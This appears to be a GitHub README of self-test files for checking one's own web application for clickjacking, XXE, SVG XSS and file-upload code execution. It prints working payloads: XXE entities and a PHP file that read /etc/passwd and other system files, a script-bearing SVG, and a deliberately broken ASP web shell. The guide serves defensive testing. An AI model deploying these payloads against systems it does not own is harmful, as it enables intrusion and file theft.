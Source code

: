We will not be hosting files because most people cannot download vulnerable files off github from company networks.
Please understand how these files work before utilizing them.


### Clickjacking
Put the link to your site into the iframe section at the bottom of each file, then save as an html file. Log in to your application, then double click on the following html file so that it opens in the same browser. If you can see your website in the iframe, this proves your application is vulnerable to clickjacking.

The following files come from PortSwigger: https://portswigger.net/web-security/clickjacking

**Basic: test1.html**
```
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: .2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:100px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://www.yourSiteHere.com/dashboard"></iframe>
```

**Frame busting: test2.html**
```
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: .2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:100px;
        left:50px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="https://www.yourSiteHere.com/dashboard"></iframe>
```



Before testing the files below, try uploading calc.exe from a Windows computer. If it successfully uploads, start the remediation procedures. If calc.exe does not upload, or if you want to test further, attempt to upload the files below.

### XXE
**XXE File: Test.xml**
Please note that the file called below should be replaced with a valid Linux file if the Web Server is Linux based.
```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ELEMENT test ANY >
<!ENTITY test SYSTEM "file:///c:/Windows/system.ini" >]><test>&test;</test>
```

**SVG File: test.svg**
https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
### XSS
**SVG file: testabc.svg**
https://github.com/makeplane/plane/security/advisories/GHSA-rcg8-g69v-x23j
```
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
      alert(0x539);
   </script>
</svg>
```

**PDF File: XSSinPDF.pdf**
https://portswigger.net/research/portable-data-exfiltration

https://owasp.org/www-chapter-belgium/assets/2007/2007-06-22/OWASP_BeLux_2007-06-22_Protecting_Web_Applications_from_Universal_PDF_XSS.pdf

Known benign XSSinPDF to download: https://github.com/ynsmroztas/pdfsvgxsspayload/blob/main/poc.pdf

### Remote Code Execution
These files should be deleted immediately after testing. Leaving these files on your web server could lead to true impact.

**PHP File Upload: file1.php**
Please note that the file called below should be replaced with a valid Windows file if the Web Server is Linux based.

```
<?php echo file_get_contents('/etc/passwd'); ?>
```
**asp Web Shell: test.asp**
The file below is a butchered version of the file linked below. This version is broken to reduce potential impact if a developer uses it incorrectly or keeps the file uploaded on the web server. If you would like to use a working version of this script, visit the link below. For testing purposes, you do not need a working version.

Source: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.asp

```
<%
Server.ScriptTimeout = 180

ip=request.ServerVariables("REMOTE_ADDR")
if ip<>"1.2.3.4" then
 response.Status="404 Page Not Found"
 response.Write(response.Status)
 response.End
end if

if Request.Form("submit") <> "" then
   Dim wshell, intReturn, strPResult
   cmd = Request.Form("cmd")
   Response.Write ("Running command: " & cmd & "<br />")
   Set objCmd = wShell.Exec(cmd)
   response.write "<br><pre>" & replace(replace(strPResult,"<","&lt;"),vbCrLf,"<br>") & "</pre>"
   set wshell = nothing
end if

%>
<html>
<body onload="document.shell.cmd.focus()">
<form action="shell.asp" method="POST" name="shell">
<input type="submit" name="submit" value="Submit" />
%ComSpec% /c dir
</form>
<hr/>
</body>
</html>
```